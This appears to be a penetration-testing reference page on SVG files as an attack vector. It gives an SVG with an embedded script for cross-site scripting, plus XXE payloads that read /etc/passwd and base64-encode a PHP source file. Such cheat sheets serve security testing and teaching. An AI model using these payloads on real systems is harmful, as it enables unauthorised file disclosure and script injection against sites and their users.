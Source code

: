 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SVG

The SVG file type, or Scalable Vector Graphics, is an open standard defined by the World Wide Web Consortium (W3C) for representing two-dimensional graphics using XML. Unlike raster formats such as JPEG or PNG, which store images as pixel grids, SVG defines shapes, paths, text, and colors mathematically, allowing graphics to scale to any resolution without loss of quality. This characteristic makes SVG ideal for icons, diagrams, logos, and illustrations that must remain sharp across different screen sizes and display densities.

Because **SVG is text-based and structured in XML**, its contents can be created, edited, or inspected directly with a text editor. The format supports styling via CSS, scripting via JavaScript, and interactive elements such as hyperlinks or animations, effectively bridging the gap between static images and dynamic web content. While these features provide flexibility, they also introduce potential attack vectors. Maliciously crafted SVGs can include embedded scripts or external references that may be abused in environments where proper sanitization is absent.

## XSS

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
{% endcode %}

## XXE

We can also perform [XXEI](../../injections/xxei/) attacks using SVG images which can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}
